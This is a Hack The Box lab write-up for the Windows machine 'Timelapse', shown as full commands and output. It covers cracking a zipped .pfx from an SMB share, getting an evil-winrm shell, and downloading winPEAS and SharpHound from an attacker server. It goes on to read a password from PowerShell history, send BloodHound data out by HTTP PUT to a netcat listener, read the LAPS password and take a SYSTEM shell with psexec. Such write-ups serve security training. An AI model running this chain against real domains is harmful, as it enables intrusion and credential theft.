

# Target
| Category          | Details                                                              |
|-------------------|----------------------------------------------------------------------|
| 📝 **Name**       | [Timelapse](https://app.hackthebox.com/machines/Timelapse)           |  
| 🏷 **Type**       | HTB Machine                                                          |
| 🖥 **OS**         | Windows                                                              |
| 🎯 **Difficulty** | Easy                                                                 |
| 📁 **Tags**       | John the Ripper, .pfx, Bloodhound, ReadLAPSPassword, impacket-psexec |

# Scan
```
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-06-03 02:58:25Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2025-06-03T02:59:54+00:00; +7h59m58s from scanner time.
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49690/tcp open  msrpc             Microsoft Windows RPC
49720/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m57s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-03T02:59:14
|_  start_date: N/A
```

# Attack path
1. [Gain initial foothold with private key discovered in SMB share](#gain-initial-foothold-with-private-key-discovered-in-smb-share)
2. [Escalate to `svc_deploy` using credentials discovered in PowerShell history file](#escalate-to-svc_deploy-using-credentials-discovered-in-powershell-history-file)
3. [Escalate to `Administrator` user using credentials read from `ms-Mcs-AdmPwd` attribute](#escalate-to-administrator-user-using-credentials-read-from-ms-mcs-admpwd-attribute)

### Gain initial foothold with private key discovered in SMB share

#### Add `timelapse.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ echo "$TARGET timelapse.htb" | sudo tee -a /etc/hosts
10.129.227.113 timelapse.htb
```

#### Enumerate SMB
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ smbmap -u guest -H timelapse.htb --no-banner
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.129.227.113:445      Name: timelapse.htb             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Shares                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
[*] Closed 1 connections 
```

#### Exfiltrate `winrm_backup.zip` archive
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ smbclient \\\\timelapse.htb\\Shares                                            
Password for [WORKGROUP\magicrc]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  4 02:37:04 2025
  ..                                  D        0  Wed Jun  4 02:37:04 2025
  Dev                                 D        0  Mon Oct 25 21:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 17:48:42 2021

                6367231 blocks of size 4096. 1302311 blocks available
smb: \> cd Dev
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 21:40:06 2021
  ..                                  D        0  Mon Oct 25 21:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 17:46:42 2021

                6367231 blocks of size 4096. 1302311 blocks available
smb: \Dev\> get winrm_backup.zip 
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (18.9 KiloBytes/sec) (average 18.9 KiloBytes/sec)
```

#### Unzip exfiltrated `winrm_backup.zip` archive
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
   skipping: legacyy_dev_auth.pfx    incorrect password
```

#### Extract password hash from `winrm_backup.zip` archive
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ zip2john winrm_backup.zip > winrm_backup.zip.hash
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
```

#### Break password hash for `winrm_backup.zip` archive
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ john winrm_backup.zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2025-06-03 18:48) 1.960g/s 6810Kp/s 6810Kc/s 6810KC/s surki..superkeep16
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

#### Unzip exfiltrated `winrm_backup.zip` archive using discovered password
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ unzip winrm_backup.zip                                   
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx
```

#### Extract private key and certificate from `legacyy_dev_auth.pfx` file
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out key.pem && \
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.pem
Enter Import Password:
Mac verify error: invalid password?
```

#### Extract password hash from `legacyy_dev_auth.pfx` file
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ pfx2john legacyy_dev_auth.pfx > legacyy_dev_auth.pfx.hash
```

#### Break password hash for `legacyy_dev_auth.pfx` file
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ john legacyy_dev_auth.pfx.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:02:07 DONE (2025-06-03 18:56) 0.007817g/s 25263p/s 25263c/s 25263C/s thuglife06..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

#### Extract private key and certificate from `legacyy_dev_auth.pfx` file using discovered password
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -passin pass:thuglegacy -out key.pem && \
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -passin pass:thuglegacy -out cert.pem
```

#### Gain initial foothold with discovered private key using `evil-winrm`
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ evil-winrm -S -c cert.pem -k key.pem -i timelapse.htb 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```

### Escalate to `svc_deploy` using credentials discovered in PowerShell history file

#### Host `winPEASx64.exe`
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ python3 -m http.server --directory ~/Tools/PEAS 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Download and run `winPEASx64.exe`
`ConsoleHost_history.txt` PS history file has been located.
```
*Evil-WinRM* PS C:\Users\legacyy\Documents> wget http://10.10.14.161:8000/winPEASx64.exe -out winPEASx64.exe; ./winPEASx64.exe
<SNIP>
    PS history file: C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
<SNIP>
```

#### Discover credentials for user `svc_deploy` in `ConsoleHost_history.txt` file
```
*Evil-WinRM* PS C:\Users\legacyy\downloads> cat C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

### Escalate to `Administrator` user using credentials read from `ms-Mcs-AdmPwd` attribute

#### Host `SharpHound`
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ python3 -m http.server --directory ~/Tools/SharpHound/Releases
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Download, extract and run `SharpHound`
```
*Evil-WinRM* PS C:\Users\legacyy\Documents> wget http://10.10.14.161:8000/sharphound-v2.6.5.zip -out sharphound-v2.6.5.zip
*Evil-WinRM* PS C:\Users\legacyy\Documents> Expand-Archive -Path sharphound-v2.6.5.zip -DestinationPath sharphound-v2.6.5
*Evil-WinRM* PS C:\Users\legacyy\Documents> ./sharphound-v2.6.5/SharpHound.exe
<SNIP>
2025-06-03T19:04:40.8092013-07:00|INFORMATION|SharpHound Enumeration Completed at 7:04 PM on 6/3/2025! Happy Graphing!
```

#### Start `netcat` to exfiltrate Bloodhound data
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ nc -lvp 8000 > bloodhound.zip
listening on [any] 8000 ...
```

#### Exfiltrate Bloodhound data using HTTP PUT request
```
*Evil-WinRM* PS C:\Users\legacyy\Documents> Invoke-WebRequest -Uri http://10.10.14.161:8000/20250603190439_BloodHound.zip -Method Put -InFile 20250603190439_BloodHound.zip
```

#### Identify `ReadLAPSPassword` for `svc_deploy` user


#### Read plaintext LAPS password stored in `ms-Mcs-AdmPwd`
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ bloodyAD --host timelapse.htb -d timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime

distinguishedName: CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
ms-Mcs-AdmPwd: xB&9}-&P3Dk8N4!6P4[9v19X
ms-Mcs-AdmPwdExpirationTime: 133938246718560698
```

#### Gain access as `Administrator` user using `impacket-psexec`
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ impacket-psexec Administrator:'xB&9}-&P3Dk8N4!6P4[9v19X'@timelapse.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on timelapse.htb.....
[*] Found writable share ADMIN$
[*] Uploading file FweTPiLj.exe
[*] Opening SVCManager on timelapse.htb.....
[*] Creating service vBMx on timelapse.htb.....
[*] Starting service vBMx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2686]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
